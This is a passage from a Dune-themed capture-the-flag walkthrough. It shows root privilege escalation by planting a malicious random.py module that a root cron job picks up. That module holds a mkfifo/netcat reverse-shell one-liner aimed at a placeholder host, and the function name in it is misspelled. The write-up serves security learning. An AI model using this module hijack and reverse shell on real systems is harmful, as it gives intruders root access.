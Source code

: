 Now that we're a member of the `fremen` group, we can access more files in `stilgar`'s home directory. For examle we can how read `stilgar.flag`: `DUNE{NotTheFlag}`. We can also read the file `raid-the-harkonnens.py`. Let's try running it to see what it does.

```
$ python3 raid-the-harkonnens.py 
The Fremen raid on the Harkonnens killed 65 Harkonnens.
```

Hmm okay. Let's take a look under the hood:

```
import random

num_harkonnens_killed = random.randint(1,100)
print(f"The Fremen raid on the Harkonnens killed {num_harkonnens_killed} Harkonnens.")
```

It uses python's `random` module to generate a random integer from 1 to 100, then prints it. We can exploit this by adding our own malicious `random` module to execute whatever we wish. To do this, just create a file called `random.py` in the same directory as `raid-the-harkonnens.py` and add the `randint()` function to it. You can write to contents of the function to be whatever malicious code you want to add. Unfortunately this is only useful if we can run `python3` as a privileged user. The `python3` binary doesn't have the SUID bit set, and we can not use `sudo` to run the command. Let's try running `linpeas.sh` to see if we can find any other attack vectors.

The first thing that jumps out at me is this cron job that gets run as `root`:

```
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	python3 /home/stilgar/raid-the-harkonnens.py
```

Looks like `raid-the-harkonnens.py` gets run as `root` every minute! Now we can add our own malicious `random.py` module to get a reverse shell:

```
import os

def randinti(a,b):
    os.system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <host-ip> <host-port> >/tmp/f")
```
Then in the next minute, we can catch a reverse shell.

## 9. Root

Let's check out the root directory.

```
# ls -l
total 24
-rwxr-xr-x 1 root root 18312 Jan 22 21:18 sardaukar
```
